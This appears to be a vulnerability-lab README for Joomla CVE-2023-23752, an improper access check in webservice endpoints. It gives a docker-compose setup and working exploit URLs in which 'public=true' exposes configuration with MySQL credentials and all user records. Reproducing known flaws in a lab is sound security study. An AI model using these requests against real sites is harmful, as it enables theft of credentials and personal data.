

# Joomla improper access check in webservice endpoints (CVE-2023-23752)

[中文版本(Chinese version)](README.zh-cn.md)

Joomla is a free and open-source content management system (CMS) that allows users to build websites and online applications. It was first released in 2005 and has since become one of the most popular CMS platforms, powering millions of websites around the world.

An issue was discovered in Joomla! 4.0.0 through 4.2.7. An improper access check allows unauthorized access to webservice endpoints.

References:

- <https://developer.joomla.org/security-centre/894-20230201-core-improper-access-check-in-webservice-endpoints.html>
- <https://xz.aliyun.com/t/12175>
- <https://vulncheck.com/blog/joomla-for-rce>

## Vulnerable Environment

Execute following command to start a Joomla site 4.2.7:

```
docker-compose up -d
```

You can access the Joomla website through `http://your-ip:8080` after the server is started.

## Exploit

This issue is caused by an attribute overwrite issue, the attacker can use `public=true` to bypass the authorization check.

For example, expose all configuration including MySQL username and password through this link:

```
http://your-ip:8080/api/index.php/v1/config/application?public=true
```



Otherwise access is unauthorized without `public=true`：


Expose all users information including emails through this link:

```
http://your-ip:8080/api/index.php/v1/users?public=true
```


